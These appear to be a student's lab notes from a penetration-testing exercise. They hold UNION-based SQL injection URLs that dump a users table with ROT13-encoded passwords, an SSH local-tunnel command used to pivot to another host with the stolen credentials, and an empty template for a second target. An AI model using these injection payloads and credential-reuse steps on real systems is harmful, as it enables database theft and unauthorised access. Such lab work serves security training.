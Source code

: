 column_Name = column name = users,customer etc

table_Name = table name = username, user-id, id etc

Right click to duplicate the tab

/uniondemo.php?Selection=2 UNION SELECT table_name,1,column_name FROM information_schema.columns

http://192.168.28.181/pick.php?product=7 union select table_schema, column_name, table_name FROM information_schema.columns

        Item 	On Hand 	Price
        HAM 	32 	        $15
        1 	    3 	        $2

        
        siteusers 	users 	$user_id
        siteusers 	users 	$name
        siteusers 	users 	$username


Step 11. Select important information - `http://192.168.28.181/pick.php?product=7 UNION SELECT * FROM siteusers.users`

        Item 	On Hand 	                Price
        HAM 	32 	                        $15
        1 	    Aaron 	                    $Aaron
        2 	    user2 	                    user2
        3 	    user3 	                    $user3
        4 	    Lroth 	                    $Lee_Roth
        1 	    ncnffjbeqlCn$$jbeq 	        $Aaron
        2 	    RntyrfVfNER78 	            $user2
        3 	    Obo4GURRnccyrf 	            $user3
        4 	    anotherpassword4THEages 	$Lroth

Step 12. We have password= ncnffjbeqlCn$$jbeq username= $Aaron. Let's ssh to .172 with this information

Step 13. Let's create a local tunnel to .172 and use Aaron's credentials 

student@lin-ops:~$ ssh user2@10.50.29.144 -L 43434:192.168.28.172:22
student@lin-ops:~$ `ssh Aaron@127.0.0.1 -p 43434` if Aaron woudn't have worked then I'd try user2, user3 and Lroth with the respective passwords 

convert ncnffjbeqlCn$$jbeq to ROTH13 using https://rot13.com/ gives the password as apasswordyPa$$word


### 2. BestWebApp ###

TODO: Review notes for this guy. 

#### Perform Reconnaissance  ####

#### Attempt Exploitation || Gain Initial Access ####

#### Find Additional Targets ####

#### Pivot to Found Targets ####
